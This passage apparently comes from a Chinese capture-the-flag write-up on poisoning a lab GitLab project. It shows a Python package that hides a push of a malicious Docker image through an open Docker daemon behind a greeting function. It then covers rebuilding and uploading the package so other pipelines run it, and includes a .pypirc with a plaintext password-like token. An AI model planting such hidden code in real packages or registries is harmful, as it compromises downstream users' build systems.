 ```bash
    # Push our malicious python docker image to the registry
    run('DOCKER_HOST=tcp://docker:2375 docker push gitlab:5050/wonderland/nest-of-gold/python:3.8')
    return "Hello, " + name
```

之后就是 build 成包。要先去把已有的包删掉：

[![](assets/1699929835-0bacb07fbba005542af8570a542dc47a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109134606-46db96f6-7ec3-1.png)

再 build 并上传

```bash
python3.10 -m build ./
python3.10 -m twine upload -r gitlab dist/* --verbose
```

`.pypirc`（放到自己的用户目录下，即`~/`下面）：

```bash
#distutils]
index-servers =
    gitlab

[gitlab]
repository = http://localhost:4000/api/v4/projects/pygryphon%2Fpygryphon/packages/pypi
username = alice
password = 998b5802ec365e17665d832f3384e975
```

之后剩下两个项目每 10 分钟自动执行一次 pipeline，就可以盗取 flag 了。

awesome-app 的 pipeline 会安装一些东西需要十几分钟的时间，nest-of-gold 的 pipeline 会直接报错，这似乎是代码本身的问题，gitlab 登 root 上去把这行 pipeline 删掉就行。经过测试似乎执行 pipeline 的时候挂全局魔法执行的会变快。
